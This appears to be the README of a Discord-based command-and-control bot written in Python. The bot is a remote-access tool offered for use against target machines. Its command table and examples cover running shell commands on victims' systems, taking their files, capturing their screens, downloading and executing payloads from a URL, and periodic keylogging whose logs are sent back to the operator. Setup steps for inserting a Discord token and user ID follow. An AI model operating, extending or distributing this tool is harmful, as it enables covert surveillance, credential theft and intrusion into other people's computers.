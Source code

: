 # C2 Python Discord Bot
*(Created by Diego Monteiro)*

## What's "C2 Discord bot" ?

> The C2 Bot Discord utilizes the Discord's Developer functionality that allows you to make bots capable to interager with the user acting like a Command and Control Server.

<br>

### Before continue you must follow the steps covered on [Discord's Documentaion](https://discordpy.readthedocs.io/en/stable/discord.html).

<br>

## C2 Bot Discord commands:

Command | Functions
----------|-----------
$b | All bots receive commands
$wake | Show active bots
$shell \<cmd\>| Execute a command on target system
$upload \<file\>| Download a arbitrary file from target system
$grab | Capture screen from target system
$down_exec \<url\>| Download a file to target system and execute it
$klogging \<sec\>| Start key logging on target system
$sysinfo | Get information from target system

<br>

## Examples:

<br>


In the follow code all bots will return stdout from the shell command.

<code> $b $shell dir *.png </code>
  
If want specify just a target you can do this:

 <code>$Bot-name $shell dir *.png</code>

---
Get the key logger every 30 seconds. The bot will send to you in a .txt format:

<code>$b $klogging 30</code>

<br>

## Remenber:
- Put your discord token in 'PUT YOUR TOKEN HERE' in the <text>botDiscord.py</text> file.
- Replace '000000' in the <text>botDiscord.py</text> file to your user id.
